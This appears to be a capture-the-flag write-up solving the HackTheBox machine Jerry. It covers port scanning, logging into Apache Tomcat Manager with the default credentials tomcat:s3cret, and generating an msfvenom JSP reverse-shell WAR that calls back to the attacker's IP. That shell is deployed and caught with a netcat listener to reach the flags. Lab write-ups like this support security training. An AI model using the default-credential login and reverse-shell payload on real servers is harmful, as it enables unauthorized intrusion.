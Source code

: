 # Jerry

## Overview

Hello everyone, In this blog we are going to solve Jerry from HackTheBox.

Link for the machine : [https://app.hackthebox.com/machines/Jerry](https://app.hackthebox.com/machines/Jerry)

Lets Start 🙌

Connect to the HTB server by using the OpenVpn configuration file that’s generated by HTB.

\[ [Click Here](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to learn more about how to connect to vpn and access the boxes. ]

After connecting to the vpn service, click on Join Machine to access the machine’s ip.

After joining the machine you can see the IP Address of the target machine.

***

## Reconnaissance

### Rustscan

First start the reconnaissance by running `rustscan` on the target IP address.

Command: `rustscan -a 10.10.10.95 -- -A -T4 -v -Pn`

<figure><img src="../.gitbook/assets/Untitled (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Untitled 1 (14).png" alt=""><figcaption></figcaption></figure>

### Results

From the results of `rustscan`, we can see that on port `8080`, Apache Tomcat service is running.

***

## Information Gathering - Port 8080

I visited the web server running on `http://10.10.10.95:8080/`.

<figure><img src="../.gitbook/assets/Untitled 2 (14).png" alt=""><figcaption></figcaption></figure>

We can see the default home page of the Apache Tomcat server. I started exploring by clicking all the buttons and links in the home page.

<figure><img src="../.gitbook/assets/Untitled 3 (14).png" alt=""><figcaption></figcaption></figure>

I clicked the Manager App button and it redirected me to the following link: [http://10.10.10.95:8080/manager/html](http://10.10.10.95:8080/manager/html), which prompted me for a username and password:

<figure><img src="../.gitbook/assets/Untitled 4 (13).png" alt=""><figcaption></figcaption></figure>

On investigating about the above URL, I found this&#x20;

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#default-credentials" %}

<figure><img src="../.gitbook/assets/Untitled 5 (13).png" alt=""><figcaption></figcaption></figure>

***

## Enumeration - Port 8080

I tried `admin:admin` combination in the prompt and it thrown me the following error:

<figure><img src="../.gitbook/assets/Untitled 6 (13).png" alt=""><figcaption></figcaption></figure>

From the above error, we can see that they have shown a example, in which they have used `tomcat:s3cret` combination. Let’s give it a try with this combination.

<figure><img src="../.gitbook/assets/Untitled 7 (10).png" alt=""><figcaption></figcaption></figure>

It worked and we got access to the Application Manager.

Further surfing the Application Manager, we can see that there is an option to upload files of type WAR.

<figure><img src="../.gitbook/assets/Untitled 8 (10).png" alt=""><figcaption></figcaption></figure>

***

## Initial Access

We can generate a `msfvenom` reverse shell and upload it as mentioned here:&#x20;

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#msfvenom-reverse-shell" %}

<figure><img src="../.gitbook/assets/Untitled 9 (9).png" alt=""><figcaption></figcaption></figure>

Generate the Reverse Shell using the following command:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<HTB_tun_IP> LPORT=8888 -f war -o revshell.war`

<figure><img src="../.gitbook/assets/Untitled 10 (9).png" alt=""><figcaption></figcaption></figure>

Now upload this `revshell.war` file and click deploy.

<figure><img src="../.gitbook/assets/Untitled 11 (9).png" alt=""><figcaption></figcaption></figure>

Now if we check the Applications table, we can see that a new path `/revshell` is generated.

<figure><img src="../.gitbook/assets/Untitled 12 (9).png" alt=""><figcaption></figcaption></figure>

Before clicking or viewing the `/revshell` link, start a `netcat` listener on your attack box / local machine on port `8888`

<figure><img src="../.gitbook/assets/Untitled 13 (9).png" alt=""><figcaption></figcaption></figure>

Now click the `/revshell` and check the `netcat` listener.

<figure><img src="../.gitbook/assets/Untitled 14 (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Untitled 15 (7).png" alt=""><figcaption></figcaption></figure>

We have successfully got access to the target machine.

***

## Getting the Flags

Now we have to look out for the flags. I started surfing the machine. I visited the `C:\Users` directory and found the following users:

<figure><img src="../.gitbook/assets/Untitled 16 (6).png" alt=""><figcaption></figcaption></figure>

I checked the Administrator directory. In the Desktop folder of Administrator found the `flags` directory.

<figure><img src="../.gitbook/assets/Untitled 17 (4).png" alt=""><figcaption></figcaption></figure>

The flags directory had a file named `2 for the price of 1.txt`.

You can view the contents of the `2 for the price of 1.txt` file using the command: `more "2 for the price of 1.txt"`

<figure><img src="../.gitbook/assets/Untitled 18 (4).png" alt=""><figcaption></figcaption></figure>

We have successfully found both the user and root flags.

Thank You !!!!!!!
